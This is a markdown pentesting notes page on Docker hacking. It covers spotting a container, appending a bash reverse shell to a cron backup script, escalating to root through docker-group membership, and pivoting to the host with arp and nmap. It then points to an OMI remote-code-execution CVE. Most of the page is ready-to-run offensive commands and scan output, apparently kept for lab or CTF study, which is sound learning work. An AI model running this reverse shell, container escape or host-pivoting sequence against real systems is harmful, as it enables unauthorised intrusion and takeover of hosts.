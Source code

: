 ```yaml
---
title: Docker hacking 🐳
---
```


- If we find a `.dockerenv` file in the root directory, we are running inside a docker container

![](Pasted%20image%2020240215214817.png)

- If we find a `.sh` on the `/opt/backups` directory like a backup script that might be running a cron job, we can try to write a reverse shell to it:

```shell
echo "bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1" >> backup.sh
```

## Being part of the docker group

- If we find out that our victim user belongs to the docker group, we can do the following (based on [GTFObins](https://gtfobins.github.io/gtfobins/docker/)):

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](Pasted%20image%2020240417222812.png)

![](Pasted%20image%2020240417222753.png)

## Escaping a container

- Once we are root by exploiting a capability vulnerability as example, we have to pivot to the host of the container as follows:

- Run `ifconfig` to see if we are connected to the eth0
- Run `arp -a` to discover other hosts on the network

```shell
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:d2:ff:62:fe [ether] on eth0
```

- So now we know that `172.17.0.1` is our host
- Now we want to perform an nmap scan to it, so we will upload a [nmap binary](https://nmap.org/download.html#linux-rpm)
	- Download the source code one
	- Install with the following:

```shell
bzip2 -cd nmap-7.94.tar.bz2 | tar xvf -
cd nmap-7.94
./configure
make
su root
make install
```

- If you haver dependency errors try [this nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
	- With this one just upload it to the container and the add it execution permissions

- Now run:

```shell
./nmap -Pn -T4 -p- 172.17.0.1 --min-rate 5000 -vv

Host is up, received arp-response (-0.0014s latency).
Scanned at 2024-04-21 17:17:26 UTC for 39s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 64
80/tcp   open   http    syn-ack ttl 64
5985/tcp closed unknown reset ttl 64
5986/tcp open   unknown syn-ack ttl 64
MAC Address: 02:42:D2:FF:62:FE (Unknown)

Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 39.69 seconds
           Raw packets sent: 196632 (8.652MB) | Rcvd: 38 (1.620KB)
```

- The port 5986 is for Microsoft's [Open Management Infraestructure (OMI)](https://github.com/microsoft/omi) service for remote configuration management of *nix VMs in Azure. Our host must be a simulation of an Azure Linux VM.
- There is a [CVE for an unauthenticated RCE](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647), and a [public exploit](https://github.com/AlteredSecurity/CVE-2021-38647) for OMI we can test.
	- You can check the exploitation in this notes in [CVE-2021-38647](/notes/Exploits/CVE-2021-38647.md)
